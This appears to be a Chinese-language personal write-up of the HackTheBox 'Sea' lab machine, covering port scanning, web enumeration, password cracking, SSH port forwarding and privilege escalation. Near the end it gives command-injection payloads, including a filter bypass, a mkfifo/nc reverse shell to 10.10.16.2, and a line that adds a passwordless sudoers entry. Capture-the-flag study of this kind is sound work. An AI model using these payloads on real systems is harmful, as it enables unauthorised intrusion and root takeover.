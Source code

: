 ```yaml
---
UID: 20250614100412
aliases: 
tags:
  - 打靶
  - 渗透
  - linux
  - "#hackthebox"
source: 
cssclasses: 
created: 2025-06-14
---
```


 ![image.png](https://s2.loli.net/2025/06/14/VSqv4MFmpf3ls8D.png)
[[htb 靶场 sea 思路 1]]
## nmap 扫描端口
![image.png](https://s2.loli.net/2025/06/14/13JhH7tMsGjQuZX.png)

存在 ssh 端口和 80 web 服务端口

## web 服务信息收集
![image.png](https://s2.loli.net/2025/06/14/VrIei17zydRPwJl.png)


这里需要绑一个域名(sea.htb)

![image.png](https://s2.loli.net/2025/06/14/wlMVFoKRpXPZOJg.png)

有个可以点击的地方，点进去看看

![image.png](https://s2.loli.net/2025/06/14/jaCcqsdGPt56KlO.png)

推断可能是 sql 注入或者 xss 之类的

输入单引号，双引号都是显示以下的提示，这就排除 sql 注入了

![image.png](https://s2.loli.net/2025/06/14/qHdFzGNteS9Vrcj.png)

换个地方找找看

枚举一下网站的目录

![image.png](https://s2.loli.net/2025/06/14/DBL7IAxpSN8it41.png)

会发现扫出一个 theme 目录，还有插件目录。

访问/themes/bike/version

![image.png](https://s2.loli.net/2025/06/14/pu2iQ6UH5wODztm.png)

找到一个版本号，搜搜有漏洞吗

![image.png](https://s2.loli.net/2025/06/14/6CvEJTKIBW9ZLgd.png)


## 漏洞利用

![image.png](https://s2.loli.net/2025/06/14/oIe5p7REui8c9Vd.png)


![image.png](https://s2.loli.net/2025/06/14/FOm7Qfr5DPRkJIM.png)

![image.png](https://s2.loli.net/2025/06/14/UjrL8yG53QgfI9w.png)


![image.png](https://s2.loli.net/2025/06/14/bfFYNxmWpgud1Ry.png)



![](https://s2.loli.net/2025/06/14/b2XKYZTvWdBxPV1.png)



## 提权
反弹 shell 成功，准备提权。用 linpeas 进行信息收集

![image.png](https://s2.loli.net/2025/06/14/c14SV5rdzeKqAN9.png)

有个 8080 端口

![image.png](https://s2.loli.net/2025/06/14/POJm1KHy9cj36q2.png)

找到 user. txt 。但问题是目前还是 www-data用户，还没法进入 amay 目录

![image.png](https://s2.loli.net/2025/06/14/C9fLyEGVboWdxBe.png)

找到一个 messages 目录，应该也是有作用的（实际上并没有作用）

只能慢慢寻找

![image.png](https://s2.loli.net/2025/06/14/VeTxuwciMgtKoZr.png)

在网站的目录中找到一串密码。拉到 john 进行破解一下

但一直报错
![image.png](https://s2.loli.net/2025/06/14/IpFlXkYZzmaP2S6.png)

怀疑是里面的斜杠的问题，删掉之后能成功破解

![image.png](https://s2.loli.net/2025/06/14/qRliMfGDvIWHyQd.png)

知道有个密码，但不知道如何使用，就用来试试是不是/home 中两个用户的密码

![image.png](https://s2.loli.net/2025/06/14/kXt1z2CyVARpGfH.png)

成功登录 amay 用户
![image.png](https://s2.loli.net/2025/06/14/FpO3ERCzyusVUi8.png)

并无东西

![image.png](https://s2.loli.net/2025/06/14/kGYhrz8MuXgeRQc.png)

第一个 flag 到手

基于刚刚在反弹 shell 中找了这么久没点东西，只能用 ssh 端口转发，转发 8080 端口

![image.png](https://s2.loli.net/2025/06/14/4CTsfnOAIdloLGe.png)

真有东西

![image.png](https://s2.loli.net/2025/06/14/zhmQWfe73lbCj9y.png)

是个执行命令的界面
![image.png](https://s2.loli.net/2025/06/14/DKekE4i9CZsXcAJ.png)

bp 抓包

![image.png](https://s2.loli.net/2025/06/14/e8QBd4gJfMkTcwq.png)

能查看到/etc/passwd
![image.png](https://s2.loli.net/2025/06/14/rWB6UsX9PRdVokT.png)

既然是命令注入尝试能不能同时执行命令

![image.png](https://s2.loli.net/2025/06/14/suetKYBf4pC2XIA.png)

被拦住了

![image.png](https://s2.loli.net/2025/06/14/qQmhxv4Ic76gLen.png)


用了这招来绕过
```
用+号来代替空格

其实说白了就是在bp中使用加密
/etc/passwd+/etc/hosts+#

/etc/passwd+%26%26+id+#
/etc/passwd && id #
```


![](https://s2.loli.net/2025/06/14/Ojs3hI1fH9tlecL.png)


![image.png](https://s2.loli.net/2025/06/14/Tc3798yzKjpqZoN.png)

成功

```
反弹shell
/etc/passwd+%26%26+rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|bash+-i+2>%261|nc+10.10.16.2+5555+>/tmp/f+%23

修改权限
/etc/passwd+%26%26+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#
```

反弹 shell 一下子就自动退出了
![image.png](https://s2.loli.net/2025/06/14/kDUXzynbNjSQt1I.png)

修改权限
![image.png](https://s2.loli.net/2025/06/14/5BMY9SCxeW2jQfI.png)


![image.png](https://s2.loli.net/2025/06/14/CFoV4L9gdmG8Puj.png)


![image.png](https://s2.loli.net/2025/06/14/VdNmaSu7JPo9ljH.png)


![image.png](https://s2.loli.net/2025/06/14/L9rztChApJyUP8e.png)
